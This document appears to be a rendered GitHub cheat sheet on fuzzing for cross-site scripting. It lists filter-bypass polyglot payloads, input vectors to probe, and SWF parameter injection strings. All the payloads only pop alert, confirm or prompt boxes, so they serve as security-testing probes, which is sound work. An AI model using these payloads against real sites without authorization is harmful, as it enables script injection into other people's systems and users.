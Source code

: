 # ￼￼￼Tactical Fuzzing - XSS

## XSS
Core Idea: Does the page functionality display something to the users?
For time sensitive testing the 80/20 rule applies. Many testers use Polyglot payloads. You probably have too!

### *Multi-context, filter bypass based polyglot payload #1 (Rsnake XSS Cheat Sheet)

```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```



### Multi-context, filter bypass based polyglot payload #2 (Ashar Javed XSS Research)

```
 
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg"> 

￼￼```
```
### Multi-context polyglot payload (Mathias Karlsson)
```

" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//


```
###￼ Other XSS Observations
```

Input Vectors:
- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms

```
## SWF Parameter XSS
```

Common Params:
onload, allowedDomain, movieplayer, xmlPath, eventhandler, callback (more on OWASP page)
```

```
Common Injection Strings:￼


\%22})))}catch(e){alert(document.domain);}//
```

```
"]);}catch(e){}if(!self.a)self.a=!alert(document.domain);//
```

```
"a")(({type:"ready"}));}catch(e){alert(1)}//

```
